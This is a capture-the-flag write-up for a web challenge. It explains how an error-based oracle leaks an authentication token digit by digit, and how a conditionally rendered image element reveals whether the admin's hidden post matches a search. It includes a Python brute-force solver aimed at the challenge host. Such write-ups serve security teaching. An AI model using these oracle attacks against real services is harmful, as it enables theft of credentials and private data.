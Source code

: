 There are some measures in place to prevent us from viewing the admin's post:
* You cannot search unless you provide `token` that matches `AUTHENTICATION_TOKEN`.
* The post created by admin will not appear unless you are an admin yourself.

### Solution

There is a flaw in code for checking if the `token` that matches `AUTHENTICATION_TOKEN`. 
```python
for i in range(len(AUTHENTICATION_TOKEN)):
    if int(token[i]) != int(AUTHENTICATION_TOKEN[i]):
        print(token[i], flush=True)
        return False
```
When we provide a single digit `0` for token:
* If `AUTHENTICATION_TOKEN` *does not* start with `0`, then the `auth(token)` returns `False` and `error.html` will show up.
* If `AUTHENTICATION_TOKEN` *does* start with `0`, then the code tries to access `token[1]`, which causes `IndexError`. Hence, `Internal Server Error` will show up.

You can repeat this for each digit to leak the full token. This enable us to access the searching feature.

We still cannot see the content for the admin's post. There was a hint in the "leak revenge" challenge.


```diff html
--- web_leak/app/templates/list.html    2024-11-27 06:02:29.000000000 +0900
+++ web_leak-revenge/leak/give_to_player/app/templates/list.html        2024-12-13 17:30:34.000000000 +0900
@@ -71,7 +71,7 @@
     <div class="container">
         <h1>Search Results</h1>
         <div class="results" id="results">
-            {% if posts|count > 0 %}
+            {% if posts|count > 0 and is_admin %}
                 <img id="customImage" src="" loading="lazy"/>
             {% endif %}
             {% for post in posts %}
                                       
```

`<img id="customImage" src="" loading="lazy"/>` only appears if there is at least one matched post for the query. This holds true even if the matched post was created by the admin but is **not** displayed to non-admin users (which was fixed in the revenge version). In other words, you can determine whether your query matches the admin's post based on whether the image element appears, even without seeing the admin's post itself.

By leveraging this information, we can leak the post content letter by letter.

### Full exploit

```python:solver.py
import requests

URL = "http://chall.w1playground.com:22222/"
# URL = "http://localhost:1337/"

s = requests.session()

known = ""

for _ in range(64):
    for i in range(10):
        r = s.get(URL + "search", params={
            "token": known + str(i)
        })
        if r.status_code == 500 or "Search Results" in r.text:
            known += str(i)
            print(known)
            break
```